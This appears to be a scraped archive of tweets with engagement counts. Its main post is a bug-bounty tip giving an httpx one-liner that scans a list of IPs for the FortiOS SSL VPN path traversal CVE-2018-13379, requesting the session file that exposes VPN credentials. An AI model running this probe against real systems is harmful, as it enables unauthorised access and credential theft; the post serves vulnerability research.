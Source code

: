 <td><img src="pictures/e06482b1cb45bec950435bed6cba0053e0e30d59b2b22b348276c2c1763ea97f.jpg" alt="e06482b1cb45bec950435bed6cba0053e0e30d59b2b22b348276c2c1763ea97f.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>450</code></td>
</tr></table>

---

# TheMsterDoctor1
**https://twitter.com/TheMsterDoctor1/status/1677235726088323074 _at 2023-07-07, 08:38:53_**
<blockquote>
Title :- A path traversal vulnerability in the FortiOS SSL VPN web portal  CVE-2018-13379 🪲

 httpx -l ips.txt -path "/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession" -status-code -mc 200

#BugBounty #bugbountytip #bugbountytips #Hacking #CyberSecurity https://t.co/pKp3NHlAOt
</blockquote>

<table><tr>
<td><img src="pictures/3779a77402d677fe09efa12eb3a8c27741d1af8e6dfde07667ab094a7c3082eb.jpg" alt="3779a77402d677fe09efa12eb3a8c27741d1af8e6dfde07667ab094a7c3082eb.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>384</code></td>
</tr></table>

---